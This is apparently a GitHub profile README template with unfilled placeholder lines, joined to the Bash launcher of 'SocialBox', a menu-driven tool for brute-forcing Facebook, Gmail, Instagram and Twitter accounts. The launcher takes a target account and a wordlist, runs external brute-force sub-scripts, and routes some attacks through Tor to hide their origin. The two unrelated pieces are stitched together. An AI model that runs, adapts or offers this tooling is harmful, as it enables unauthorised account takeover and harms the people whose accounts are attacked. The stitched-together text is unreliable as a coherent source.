 - 👋 Hi, I’m @mdismail635
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
mdismail635/mdismail635 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
#!/bin/bash
#Colors
white="\033[1;37m"
grey="\033[0;37m"
purple="\033[0;35m"
red="\033[1;31m"
green="\033[1;32m"
yellow="\033[1;33m"
Purple="\033[0;35m"
Cyan="\033[0;36m"
Cafe="\033[0;33m"
Fiuscha="\033[0;35m"
blue="\033[1;34m"
nc="\e[0m"
#ROOT PRIVILEGIES
if [[ $EUID -ne 0 ]]; then
        echo -e "$red You don't have Root privilegies, execute the script as root.$nc"
        exit 1
fi
#Installation
sleep 1
echo -e "Checking Installation $nc"
bash install-sb.sh
echo -e "Checking Completed [$green✓$nc] $nc "
sleep 1
clear
#Startup
echo -e "$green"
echo "		.▄▄ ·        ▄▄· ▪   ▄▄▄· ▄▄▌      ▄▄▄▄·       ▐▄• ▄ "
echo "		▐█ ▀. ▪     ▐█ ▌▪██ ▐█ ▀█ ██•      ▐█ ▀█▪▪      █▌█▌▪"
echo "		▄▀▀▀█▄ ▄█▀▄ ██ ▄▄▐█·▄█▀▀█ ██▪      ▐█▀▀█▄ ▄█▀▄  ·██· "
echo "		▐█▄▪▐█▐█▌.▐▌▐███▌▐█▌▐█ ▪▐▌▐█▌▐▌    ██▄▪▐█▐█▌.▐▌▪▐█·█▌"
echo -e "		 ▀▀▀▀  ▀█▄▀▪·▀▀▀ ▀▀▀ ▀  ▀ .▀▀▀     ·▀▀▀▀  ▀█▄▀▪•▀▀ ▀▀$nc $blue v1$nc"
echo -e "	[+]              $red Coded By Belahsan Ouerghi$nc         		   [+]"
echo -e "	[+] 		 $red www.facebook.com/ouerghi.belahsan$nc 		   [+]"
echo -e "	[+] 		 $red Greetz To All Pentesters$nc          		   [+]"
echo -e "	[+]$red Special Greetz To$nc :$green {thelinuxchoice , Ha3MrX, Tunisian Eagles}$nc [+]"
echo ""
echo -e "$yellow Select From Menu : $nc"
echo ""
echo -e "		$Cyan 1 : Brute Force Facebook Account$nc"
echo -e "		$Cyan 2 : Brute Force Gmail Account$nc"
echo -e "		$Cyan 3 : Brute Force Instagram Account$nc"
echo -e "		$Cyan 4 : Brute Force Twitter Account$nc"
echo -e "		$Cyan 99: Exit$nc"
read -p "Choice >  " ch
if [ $ch = 1 ]; then
echo -e "			$Cyan Facebook Brute Force$nc"
echo -e "$green"
read -p "Enter Facebook ID / Email / Username / Number: " id
read -p "Enter wordlist path : " wordlist
echo -e "$nc"
cd facebook
perl fb-brute.pl $id $wordlist
echo -e " 		[+]$yellow Brute Force Complete $nc[$green✓$nc] $nc[+]"
echo -e "$red"
read -p "Wanna Back To Main Menu [ Y / n ] : " check
echo -e "$nc"
if [ $check = "Y" ]; then
cd .. && bash SocialBox.sh
elif [ $check = "y" ]; then
cd .. && bash SocialBox.sh
elif [ $check = "Yes" ]; then
cd .. && bash SocialBox.sh
elif [ $check = "yes" ]; then
cd .. && bash SocialBox.sh
elif [ $check = "YES" ]; then
cd .. && bash SocialBox.sh
else
exit 1
fi
elif [ $ch = 2 ]; then
echo -e "			$Cyan Gmail Brute Force$nc"
cd Gemail-Hack
python gemailhack.py
echo -e "               [+]$yellow Brute Force Complete $nc[$green✓$nc] $nc[+]"
echo -e "$red"
read -p "Wanna Back To Main Menu [ Y / n ] : " check2
echo -e "$nc"
if [ $check2 = "Y" ]; then
cd .. && bash SocialBox.sh
elif [ $check2 = "y" ]; then
cd .. && bash SocialBox.sh
elif [ $check2 = "Yes" ]; then
cd .. && bash SocialBox.sh
elif [ $check2 = "yes" ]; then
cd .. && bash SocialBox.sh
elif [ $check2 = "YES" ]; then
cd .. && bash SocialBox.sh
else
exit 1
fi
elif [ $ch = 3 ]; then
echo -e "			$Cyan Instagram Brute Force$nc"
cd instainsane/
sleep 0.025
	echo -e "	[+]$red Service Tor Stated $nc[+]"
sleep 0.9
service tor start
./instainsane.sh
echo -e "               [+]$yellow Brute Force Complete $nc[$green✓$nc] $nc[+]"
service tor stop
echo -e "		[+]$red Service Tor Stopped$nc [+]"
echo -e "$red"
read -p "Wanna Back To Main Menu [ Y / n ] : " check3
echo -e "$nc"
if [ $check3 = "Y" ]; then
cd .. && bash SocialBox.sh
elif [ $check3 = "y" ]; then
cd .. && bash SocialBox.sh
elif [ $check3 = "Yes" ]; then
cd .. && bash SocialBox.sh
elif [ $check3 = "yes" ]; then
cd .. && bash SocialBox.sh
elif [ $check3 = "YES" ]; then
cd .. && bash SocialBox.sh
else
exit 1
fi
elif [ $ch = 4 ]; then
echo -e "			$Cyan Twitter Brute Force$nc"
cd tweetshell/
sleep 0.025
        echo -e "	[+]$red Service Tor Stated $nc[+]"
sleep 0.9
service tor start
bash tweetshell.sh
echo -e "               [+]$yellow Brute Force Complete $nc[$green✓$nc] $nc[+]"
service tor stop
echo -e "		[+]$red Service Tor Stopped$nc [+]"
echo -e "$red"
read -p "Wanna Back To Main Menu [ Y / n ] : " check4
echo -e "$nc"
if [ $check4 = "Y" ]; then
cd .. && bash SocialBox.sh
elif [ $check4 = "y" ]; then
cd .. && bash SocialBox.sh
elif [ $check4 = "Yes" ]; then
cd .. && bash SocialBox.sh
elif [ $check4 = "yes" ]; then
cd .. && bash SocialBox.sh
elif [ $check4 = "YES" ]; then
cd .. && bash SocialBox.sh
else
exit 1
fi
elif [ $ch == 99 ]; then
echo -e "$red Program Exit ...$nc"
sleep 0.25
exit 1
else
echo "Not Found 404 , Exit"
exit 1
fi

